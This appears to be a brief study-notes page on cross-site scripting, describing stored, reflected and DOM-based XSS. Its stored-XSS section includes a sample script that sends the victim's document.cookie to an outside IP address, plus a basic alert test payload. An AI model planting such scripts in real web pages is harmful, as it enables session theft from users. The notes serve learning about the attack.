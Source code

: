 # Cross-Site Scripting (XSS)

[HOME](../index.html) / [Web](./)

## The basics

Injection of scripts to the web.

```
<script>alert(1);</script>
```

## Stored XSS

Most commonly seen in forums and comment area. The injected script will be stored into the server and database.

```html
<html>
    <body>
        <script>
            var r = new XMLHttpRequest();
            r.open("GET", "http://192.168.49.131" + document.cookie);
            r.send();
        </script>
    </body>
</html>
```

## Reflected XSS

Inputs that can be reflected back to the user is highly vulnerable when not properly handled.

## DOM-Based XSS&#x20;

Focuses on the client side.&#x20;

DOM-based XSS is a type of attack that tries to inject script to the Document Object Model (DOM).
